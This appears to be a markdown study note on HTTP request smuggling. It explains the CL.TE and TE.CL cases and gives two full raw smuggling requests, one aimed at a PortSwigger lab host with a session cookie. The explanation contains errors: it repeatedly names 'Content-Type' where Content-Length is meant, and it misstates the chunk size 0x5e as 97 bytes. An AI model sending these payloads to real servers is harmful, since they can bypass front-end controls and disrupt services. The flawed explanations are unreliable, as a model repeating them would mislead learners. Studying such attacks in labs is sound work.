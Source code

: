 # HTTP request smuggling

This vulnerability Usually Occurs due to disparity between two nodes and and the intended recipient of the HTTP request parses the request it is not supposed to or it does it in a way it is doesnt intend to. This way a request can be smuggled sometimes bypassing checks and sometimes dirupting services.


Two Important Header to Take Note Of:

- Content-Length
- Transfer-Encoding

### TE (Transfer Encoding)

After sending the headers and the Transfer-Encoding: chunked declaration, the server sends the response body in a series of chunks. Each chunk begins with the size of the chunk, in hexadecimal, followed by a CRLF (Carriage Return and Line Feed) sequence.
Then comes the chunk data, followed by another CRLF. Here's an example of what a chunk might look like:
```
4\r\n
This\r\n
7\r\n
is a test\r\n
0\r\n
\r\n

```

 The final chunk has a size of 0, which indicates the end of the response. The client understands that the response is complete when it receives a chunk with a size of 0.


CASE 1:

Between Two nodes , First node refers to Front End Node and the Second Node refers to Back End Node 

If the First Node uses Content Type and the Second Node doesn't but supports Transfer Encoding ... An attacker can abuse this behavior to smuggle an additional request the first Node wont account for , but the second node will accept and parse.

```
POST / HTTP/1.1
Host: Host
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Ola: Ola
```

in situation this request was used , the First Node will see a POST request with 

```
0

GET /404 HTTP/1.1
Ola: Ola
```
as body because it uses the Content-Type header to parse the request, this allows ``` GET /404 HTTP/1.1
Ola: Ola``` to go unchallenged by the first node , but once it gets to the second node which uses *Transfer-Encoding* it sees two request instead one a post request that uses a chunk and ends without a body and a second request ```GET /404 HTTP/1.1
Ola: Ola``` ... This way both request will be processed and if there are any checks in the first node , it has been bypassed





CASE 2:

In this scenario , the First Node uses the Transfer0-Encoding Header and the Second Node uses the Content-Type Header for parsing the request. A scenario like this an attacker can make the second node parse an additional request by fooling the front-end to believe it is only parsing one .

```
POST / HTTP/1.1
Host: 0a87003a03245d6a8163d66b00f9003f.web-security-academy.net
Cookie: session=yiwWx1zD5MkhYVAOBOwsyX4tCRJO0GX7
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The First Node using Transfer-Encoding two chunks of data, the first chunk with a lenght of 97 bytes (0x5e). and the second chunk signifying the end of the request. This request passed the first node checks nothing spoil. The second node , seeing this same request interprets it diffrently , it sees a content-lenght of 4 bytes which is ```5e\r\n```  , and another request, a POST request with the content-lenght of 15, 

```
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

``` 


